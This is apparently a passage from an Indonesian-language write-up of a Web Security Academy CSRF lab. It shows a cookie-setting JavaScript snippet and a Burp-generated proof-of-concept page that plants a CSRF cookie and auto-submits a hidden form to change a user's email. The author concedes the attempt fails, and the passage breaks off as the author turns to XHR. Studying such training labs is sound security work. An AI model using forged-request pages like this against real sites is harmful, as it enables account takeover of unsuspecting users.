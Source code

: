 Kemudian saya menemukan beberapa kode untuk mengatur nilai cookie ([sumber](https://stackoverflow.com/questions/14573223/set-cookie-and-get-cookie-with-javascript)):

```javascript
function setCookie(name, value, days) {
    var expires = "";
    if (days) {
        var date = new Date();
        date.setTime(date.getTime() + (days * 24 * 60 * 60 * 1000));
        expires = "; expires=" + date.toUTCString();
    }
    document.cookie = name + "=" + (value || "") + expires + "; path=/";
}

setCookie('ppkcookie', 'testcookie', 7);
```

Dalam kasus kita, kita akan mengubah baris terakhir menjadi:

```html
<html>
  <!-- CSRF PoC - dibuat oleh Burp Suite Professional -->
  <body>
  
		<script>
		function setCookie(name, value, days) {
			var expires = "";
			if (days) {
				var date = new Date();
				date.setTime(date.getTime() + (days * 24 * 60 * 60 * 1000));
				expires = "; expires=" + date.toUTCString();
			}
			document.cookie = name + "=" + (value || "") + expires + "; path=/";
		}

		setCookie('csrfKey', 'Eb67I1HyfMZGN1o9KZWih0EwODxdozMg', 7);
		</script>
	
    <form action="https://0a7900c3035d83b782ebb0de009400e0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test2&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="V99KDCadmiyH6AJ1jjXnlHyZxdfQtEkl" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Namun, ini tidak akan berhasil karena kita perlu mengatur header Cookie, bukan cookie di browser. Kita bisa menggunakan XHR ([sumber](https://learn.microsoft.com/en-us/troubleshoot/developer/webapps/iis/active-server-pages/xmlhttprequest-setrequestheader-method-cookies)). Kemudian saya akan membuat permintaan POST dalam JavaScript dengan XHR ([sumber](https://stackoverflow.com/questions/9713058/send-post-data-using-xmlhttprequest)):
